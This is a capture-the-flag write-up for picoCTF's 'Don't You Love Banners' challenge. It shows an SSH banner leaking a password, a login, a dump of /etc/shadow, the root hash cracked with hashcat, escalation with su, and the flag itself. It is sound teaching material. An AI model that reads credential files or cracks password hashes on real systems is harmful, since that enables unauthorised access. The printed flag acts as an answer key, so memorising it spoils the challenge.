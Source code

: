 # **Don't You Love Banners**

## **Problem**
Can you abuse the banner? The server has been leaking some crucial information on tethys.picoctf.net 57623. 
Use the leaked information to get to the server. To connect to the running application use nc tethys.picoctf.net 56550. 
From the above information abuse the machine and find the flag in the /root directory.

## **Solution**
First NC the leaking server...it gives you the password!

└─$ nc tethys.picoctf.net 57623
SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234

Then go to the next server and enter in the password. It will ask you 2 questions which after a little Google Searching 
you will answer easily.

└─$ nc tethys.picoctf.net 56550
*************************************
**************WELCOME****************
*************************************

what is the password? 
My_Passw@rd_@1234
What is the top cyber security conference in the world?
def con

the first hacker ever was known for phreaking(making free phone calls), who was it?
John Draper


player@challenge:~$ 


now that you are in, find the flag.

a quick ls -la will show the flag.txt file

I actually didnt use the hints to get the flag...I checked the etc folder and was given access. Becuase this was open
I jumped straight to the shadow folder and hit it with a the cat function:

player@challenge:~$ cd /etc
cd /etc
player@challenge:/etc$ cat shadow

cat shadow

root:$6$6QFbdp2H$R0BGBJtG0DlGFx9H0AjuQNOhlcssBxApM.CjDEiNzfYkVeJRNy2d98SDURNebD5/l4Hu2yyVk.ePLNEg/56DV0:19791:0:99999:7:::
daemon:*:19507:0:99999:7:::
bin:*:19507:0:99999:7:::
sys:*:19507:0:99999:7:::
sync:*:19507:0:99999:7:::
games:*:19507:0:99999:7:::
man:*:19507:0:99999:7:::
lp:*:19507:0:99999:7:::
mail:*:19507:0:99999:7:::
news:*:19507:0:99999:7:::
uucp:*:19507:0:99999:7:::
proxy:*:19507:0:99999:7:::
www-data:*:19507:0:99999:7:::
backup:*:19507:0:99999:7:::
list:*:19507:0:99999:7:::
irc:*:19507:0:99999:7:::
gnats:*:19507:0:99999:7:::
nobody:*:19507:0:99999:7:::
_apt:*:19507:0:99999:7:::
systemd-network:*:19791:0:99999:7:::
systemd-resolve:*:19791:0:99999:7:::
messagebus:*:19791:0:99999:7:::
sshd:*:19791:0:99999:7:::


player:$6$BCCW51fi$UI/5W01uG2.6EmxktMtZXbJQwrgDlv213cLwu7RxaIQHnRZXwKZ3yjuyNKf86KlSwbvAOp3YozpNVrBeKW9Ls0:19791:0:99999:7:::


### there is our root password with sha512crypt (we know this because of the $6$)....run hashcat with 1800 for the format and --show to produce the results

─$ hashcat -a 0 -m 1800 hash /usr/share/seclists/Passwords/Cracked-Hashes/milw0rm-dictionary.txt --show
$6$6QFbdp2H$R0BGBJtG0DlGFx9H0AjuQNOhlcssBxApM.CjDEiNzfYkVeJRNy2d98SDURNebD5/l4Hu2yyVk.ePLNEg/56DV0:iloveyou


### now with the root password just su root...enter iloveyou and you have all rights

player@challenge:/etc$ su root

su root

Password: iloveyou

### locate and cat the flag

root@challenge:/etc# cd /root
cd /root
root@challenge:~# ls -la
ls -la
total 16
drwxr-xr-x 1 root root    6 Mar 12 00:18 .
drwxr-xr-x 1 root root   29 Mar 27 18:14 ..
-rw-r--r-- 1 root root 3106 Apr  9  2018 .bashrc
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
-rwx------ 1 root root   46 Mar 12 00:18 flag.txt
-rw-r--r-- 1 root root 1317 Feb  7 17:25 script.py

root@challenge:~# cat flag.txt

cat flag.txt

picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_218ef5d6}



